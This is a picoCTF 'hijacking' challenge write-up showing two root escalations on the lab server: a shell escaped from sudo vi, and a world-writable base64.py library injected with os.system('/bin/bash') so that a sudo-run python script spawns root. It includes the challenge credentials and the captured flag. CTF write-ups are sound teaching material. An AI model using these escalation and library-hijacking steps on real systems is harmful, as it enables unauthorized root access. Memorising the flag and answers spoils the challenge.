 # hijacking
Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with. (200 Points)
Through Social engineering, we've got the credentials to use on the server. SSH is running on the server.
saturn.picoctf.net 55719
Username: picoctf
Password: rZSsB--vJK

## Solution
If we take a quick look at the system we can find the following sudo rights
```
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
picoctf@challenge:~$
```

Im not sure if this challenge is supposed to do so, but with the sudo rights for 'vi' you just can execute it with sudo rights and than call commands or directly a shell inside vi:
```
picoctf@challenge:~$ sudo vi
[sudo] password for picoctf:

[INSIDE VIM -> :shell]

root@challenge:/home/picoctf# id
uid=0(root) gid=0(root) groups=0(root)
root@challenge:/home/picoctf# ls -al /root/
total 12
drwx------ 1 root root   23 Mar 16 02:08 .
drwxr-xr-x 1 root root   51 Mar 27 14:10 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   43 Mar 16 02:08 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
root@challenge:/home/picoctf# cat /root/.flag.txt
picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}
root@challenge:/home/picoctf#
```

But i dont think that this is the way it was intended. The more relevant part of the sudo rights is `(root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py`. With this we can execute the python script in our home directory with sudo rights:
```
picoctf@challenge:~$ ls -al
total 16
drwxr-xr-x 1 picoctf picoctf   20 Mar 27 14:11 .
drwxr-xr-x 1 root    root      21 Mar 16 02:08 ..
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
drwx------ 2 picoctf picoctf   34 Mar 27 14:11 .cache
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
-rw-r--r-- 1 root    root     375 Mar 16 01:30 .server.py
picoctf@challenge:~$ cat .server.py
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip)
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
picoctf@challenge:~$
```

But it doesnt bring any advantage, because we cant edit the script. But maybe we can manipulate some of the libraries. So checking it out:
```
picoctf@challenge:~$ find / | grep python | grep -i -E "base64.py|os.py|socket.py"
[...]
/usr/lib/python3.8/base64.py
/usr/lib/python3.8/os.py
/usr/lib/python3.8/socket.py
picoctf@challenge:~$ ls -al /usr/lib/python3.8/base64.py /usr/lib/python3.8/os.py /usr/lib/python3.8/socket.py
-rwxrwxrwx 1 root root 20382 Nov 14 12:59 /usr/lib/python3.8/base64.py
-rw-r--r-- 1 root root 38995 Nov 14 12:59 /usr/lib/python3.8/os.py
-rw-r--r-- 1 root root 35243 Nov 14 12:59 /usr/lib/python3.8/socket.py
picoctf@challenge:~$
```

We have the full rights to edit the base64.py module. We can add the following lines to escalated our privs:
```
picoctf@challenge:~$ vim /usr/lib/python3.8/base64.py
import re
import struct
import binascii

+ import os
+ os.system('/bin/bash')


__all__ = [
[...]
```

After that execute the python script with sudo rights to get a root shell:
```
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
root@challenge:/home/picoctf# id
uid=0(root) gid=0(root) groups=0(root)
root@challenge:/home/picoctf# cat /root/.flag.txt
picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}
root@challenge:/home/picoctf#
```
